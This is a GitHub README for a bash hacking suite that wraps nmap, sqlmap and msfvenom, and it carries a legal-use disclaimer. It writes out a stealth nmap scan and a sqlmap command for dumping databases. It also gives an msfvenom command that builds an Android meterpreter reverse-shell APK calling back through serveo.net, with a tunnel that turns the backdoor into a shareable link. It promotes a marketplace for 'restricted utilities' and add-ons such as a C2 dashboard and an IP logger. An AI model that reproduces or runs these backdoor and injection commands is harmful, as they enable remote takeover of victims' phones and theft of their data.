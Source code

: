 # aaayafuj_hacking_tools_neter.sh
This script is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited. Always have written permission from the owner of any system you're testing.

![Screenshot 2025-06-08 144934](https://github.com/user-attachments/assets/44413f06-7def-4d6d-a497-1a0cb8537794)
# 🧠 What Is aaayafuj_hacking_tools_neter.sh?
`A bash-based hacking suite that automates setup, reconnaissance, exploitation, payload generation, and ethical research workflows — all under the legally structured aaayafuj framework.`

* [1] It's designed to:
* [2] Auto-install everything
* [3] Give you one place to run your recon, SQLi, payload gen, etc.
* [4] Connect to Net AAA (secure comm)
* [5] Link you to aaayafuj Marketplace
* [6] Work on Kali, Ubuntu, or any Debian-based distro
* [7] Act like a launcher + manager + secure entry point

[#]🚩 Tools Included & Their Purpose
# 1. Nmap Recon
    nmap -sS -A -T4 $target
* (.) Full stealth scan (-sS)
* (.) OS and version detection (-A)
* (.) Timing level 4 for fast scan
* (.) Used to find open ports, detect services, and map a target network
* (.) Why? Because every op starts with knowing your battlefield.

# 2. SQLMap Injection Toolkit
    sqlmap -u "$url" --dbs
* (+)= Automatically detects and exploits SQL injection vulnerabilities.
* (+)= Dumps databases, tables, or even full creds.
* (+)= Why? Web vulnerabilities are low-hanging fruit. SQLMap makes it legal and fast.

# 3. Payload Link Generator (Serveo + msfvenom)
    msfvenom -p android/meterpreter/reverse_tcp LHOST=serveo.net LPORT=4444 -o payload.apk
    ssh -R 80:localhost:4444 serveo.net
    Generates Android backdoors

[1] Hosts them online using serveo.net tunnels
[2] Auto-creates shareable links
[3] Why? For legal red team testing or educational sandboxing.

# 4. Net AAA Terminal Shortcut
    xdg-open https://net-aaa.aaayafuj.com
* Opens the official secure terminal chat for aaayafuj users.
* Used for secure intel sharing, coordination, and AI-based discussions.

# 5. aaayafuj Marketplace Access
    xdg-open https://marketplace.aaayafuj.com
* Opens the online shop for tools, licenses, books, and restricted utilities.
* [OR]
* Secure identity & certification checks included.

# 6. System Installer (Full Automation)
    apt update && apt install nmap sqlmap metasploit-framework openssh curl wget git -y
* Ensures everything needed is on your system
* Even fetches GitHub tools you need

7. Menu Interface (Old School Cool)
* select option in Nmap SQLMap Payload NetAAA Exit; do
   # case $option in ...
* Runs from terminal
* Styled with ASCII banners
* Easy option select, great for demos or fast ops

# 8. Logging + Banner Engine
    echo -e "\e[1;91m██╗  ██╗███████╗ █████╗ ██╗   
                     ██╗ █████╗ ███████╗██╗   ██╗\e[0m"
                     AAA         YAFUJ        AYFJ
* Displays your custom aaayafuj ASCII banner at startup
* Logs actions to /var/log/aaayafuj.log or custom path

✅ Full Workflow Example:
bash
Copy
Edit
./aaayafuj_hacking_tools_neter.sh

# Choose:
1. Recon with Nmap
2. Inject with SQLMap
3. Generate Android payload and share link
4. Open NetAAA secure terminal
5. Shop legal tools in the aaayafuj Marketplace
🧱 Optional Add-Ons
Wanna expand this script? Here’s what can be added:

1.[T]or integration
2.[T]elegram bot alerts
3.[D]iscord webhook notifications
4.[C]2 dashboard (Python Flask)
5.[P]ort scanner GUI with Zenity
6.[C]ustom module installer
7.[I]P logger + tracker using Net J6 Tracker

⚖️ Legal & Ethical Note
* [A] aaayafuj_hacking_tools_neter.sh is FOR LEGAL USE ONLY🫀
* [B] Red teamers, students, cybersecurity experts.:
* [C] Must follow local laws and ethics.
* [D] Any illegal usage = your own responsibility.


# aaayafuj_hacking_tools_neter.sh 🛡️🔥 
    > The Ultimate All-in-One Ethical Hacking Suite by [aaayafuj]

* 🔹 `Network Recon (Nmap)`
* 🔹 `SQL Injection (SQLMap)`
* 🔹 `Payload Link Generator (Serveo)`
* 🔹 `Direct Access to Net AAA Chat & Marketplace`
* 🔹 `Auto-dependency installer`
* 🔹 `Simple terminal UI`

# 💥 Just clone, chmod +x, and run:
    git clone https://github.com/aaayafuj/aaayafuj_hacking_tools.git
    cd aaayafuj_hacking_tools
    chmod +x aaayafuj_hacking_tools_neter.sh
    ./aaayafuj_hacking_tools_neter.sh

⚠️ LEGAL USE ONLY. All tools included follow ethical hacking protocols. 

